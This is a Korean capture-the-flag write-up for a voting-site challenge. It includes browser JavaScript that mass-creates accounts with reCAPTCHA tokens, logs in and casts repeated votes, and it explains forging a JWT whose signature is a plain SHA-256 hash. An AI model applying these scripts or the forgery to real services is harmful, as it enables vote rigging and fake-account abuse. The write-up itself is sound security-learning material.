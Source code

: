 # Watermelon
> ## Overview  
음악을 업로드하는 기능과 투표를 할 수 있는 기능이 있다.  
투표는 계정당 한 번만 가능하다. 회원가입과 로그인에는 캡챠가 작동하고 있다.  
JWT기반 인증을 사용하고 있다.  
> ## Solve
회원가입하여 로그인하여 JWT 토큰을 디코딩하여 아래의 값을 얻었다.

```  
{"alg":"sha256","typ":"JWT"}.{"user_no":7374,"id":"workerholic","nickname":"workerholic","iat":1577621349}.32f6c091cf3e50ce7ac64fd042ef309e438a58454e30e61bf8ee7dd1dbd24390
```
이를통해 user_no를 조작하여 투표를 계속할 수 있게 해볼려고 시도해봤으나 jwt의 signature 부분이 계속 틀려서 포기했다.  
다음 생각한 방법은 회원가입하고 로그인하고 투표하는 동작을 자동으로 할 수 있게 프로그램을 만들어서 투표 수를 높이는거였다.  
그런데 회원가입과 로그인 기능에는 reCaptcha가 작동하고 있었다. 
```
<script src="https://www.google.com/recaptcha/api.js?render=6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z"></script>
<script>
grecaptcha.ready(function() {
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z', {action: 'homepage'}).then(function(token) {
        document.getElementById('g-recaptcha-response').value = token;
    });
});
</script>
```  
스크립트를 통해 받아온 token 값을 g-recaptcha-response에 담아 POST로 같이 전송하는 방식이다.  
이 token값은 요청마다 바뀌었다.  
브라우저에서 자바스크립트를 실행해서 값을 받아오기 때문에
python 코드 상에서 해당 token 값을 받아 올 수는 없었다.   
파이선으로 해당 코드를 대체하여 token 값을 받아올 방법을 못 찾고  
그냥 해당 api가 불러와진 회원가입 페이지에서 개발자 도구를 통해 자바스크립트로 코드를 작성하여 실행시켯다.  
```
function register(count){
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z',{action: 'homepage'}).then(function(token) {
        var id = 'worker'+count
        var param = "id="+id+"&password="+id+"&nickname="+id+"&g-recaptcha-response="+token;
        fetch("http://ch4n3.me:8080/xmas/?p=signup.ok",{
            method : 'POST',
            headers: {'Content-Type':'application/x-www-form-urlencoded'},
            body : param
        }).then(register(count+1));
    });
}

function login(count){
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z',{action: 'homepage'}).then(function(token) {
        var id = 'worker'+count
        var param = "id="+id+"&password="+id+"&g-recaptcha-response="+token;
        fetch("http://ch4n3.me:8080/xmas/?p=signin.ok",{
            method : 'POST',
            headers: {'Content-Type':'application/x-www-form-urlencoded'},
            body : param
        }).then(login(count+1)).then(vote());
    });
}

function vote(){
    var xhttp = new XMLHttpRequest();
    var music_no = 555;
    var param = "music_no="+music_no;
    xhttp.open("POST", "http://ch4n3.me:8080/xmas/vote.php");
    xhttp.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhttp.send(param);
    var work = xhttp.responseText;
    console.log(work);
}
```
처음에 register()와 login()에서 fetch()말고 xhttp.send()로 요청을 계속 보내니 중간에 잘보내다가 요청이 pending 상태에 걸려서 에러가 발생했다. 너무 화가났다. 쨋든 이렇게 동작하게 코드를 만들어서
```
for(var i=1122; i<1500; i++)
    register(i);
for(var i=1122; i<1500; i++){
    login(i);
    vote();
}
```
동작시키면 아이디를 만들고 그 아이디로 로그인해서 투표하는걸 반복하게된다. 그래서 투표 수를 계속 높여나가다 투표받은 음악을 올린 계정으로 로그인하니 플래그가 뙇~ 멍청하게 자알~ 풀었다.  
> ## Real Solve
해당 페이지의 robots.txt에 코드가 올라와있는 github 주소가 있었다.
jwt 토큰을 생성하는 페이지를 보니 header 부분과 payload 부분을 sha256으로 해쉬한게 signature였다......  
그리하여 user_no를 변경하고 이를 알맞게 해쉬하여 signature를 붙여서 인코딩해주면 jwt가 정상적으로 인식되어 투표할 수 있었다.  투표는 1226표 이상 받으면 flag가 출력되게 되어있었다.
